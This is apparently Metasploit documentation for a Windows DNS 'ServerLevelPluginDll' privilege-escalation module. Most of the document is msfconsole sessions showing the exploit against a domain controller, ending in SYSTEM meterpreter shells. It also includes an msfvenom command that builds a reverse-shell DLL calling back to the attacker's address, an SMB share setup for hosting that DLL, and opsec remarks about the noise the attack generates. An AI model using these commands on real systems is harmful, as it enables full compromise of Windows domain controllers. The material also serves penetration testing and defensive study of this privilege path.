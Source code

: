 ## Introduction
This module exploits a feature in the DNS service of Windows Server. Users of the DnsAdmins group can set the
`ServerLevelPluginDll` value using dnscmd.exe to create a registry key at `HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters\`
named `ServerLevelPluginDll` that can be made to point to an arbitrary DLL. After doing so, restarting the service will load the DLL
and cause it to execute, providing us with SYSTEM privileges.

## Vulnerable Application

Windows Server 2003 and above

## Verification Steps

1. Get a Meterpreter shell
2. `use exploit/windows/local/dnsadmin_serverlevelplugindll`
3. `set PAYLOAD <payload>`
4. `set LHOST <lhost>`
5. `set LPORT <lport>`
6. `set SESSION <session_no>`
7. `set DLLNAME <dllname>` if you want to name your DLL something other than `msf.dll`
8. `set DLLPATH <dllpath>` if you want to place your DLL somewhere other than `%TEMP%` or want to use a UNC path
9. `exploit` to get SYSTEM shell

## Options

  **DLLNAME**
  Name of the DLL to use.

  **DLLPATH**
  Location of the DLL to use. If a UNC path is provided, the module assumes that the operator already has the prerequisites:
  1. A working SMB2 share (use Impacket's `smbserver.py` to quickly set up one)
  2. A DLL of the same architecture as the target system

## Scenarios

### Windows Server 2019 Standard x64, writing `msf.dll` to `%TEMP%`
```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.139:4444 -> 192.168.137.133:56703 (192.168.137.133)

msf5 > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.139
LHOST => 192.168.137.139
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.139:4444 
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Building DLL...
[*] Writing DLL to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[*] Modifying ServerLevelPluginDll to point to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.139:4444 -> 192.168.137.133:59422) at 2020-05-01 03:28:29 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Windows Server 2019 Standard x64, specifying a UNC path for ServerLevelPluginDll
The fastest way to get a share up and running is to use Impacket's `smbserver`:
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -ip 192.168.137.139 test ./`
Generate a DLL using `msfvenom`:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.137.139 LPORT=4444 -f dll -o test.dll`
```
msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.139:4444 -> 192.168.137.133:62355 (192.168.137.133)

msf5 > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.139
LHOST => 192.168.137.139
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLPATH \\\\192.168.137.139\\test
DLLPATH => \\192.168.137.139\test
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME test.dll
DLLNAME => test.dll
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.139:4444 
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Using user-provided UNC path.
[*] Modifying ServerLevelPluginDll to point to \\192.168.137.139\test\test.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.139:4444 -> 192.168.137.133:62373) at 2020-05-01 02:35:06 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Notes
1. This module is not particularly opsec-safe as it drops a DLL to disk, writes to the registry, and is sure to generate a
a ton of event logs when the DNS service is stopped and restarted.
2. After exploitation, the DLL cannot be deleted without first stopping the DNS service.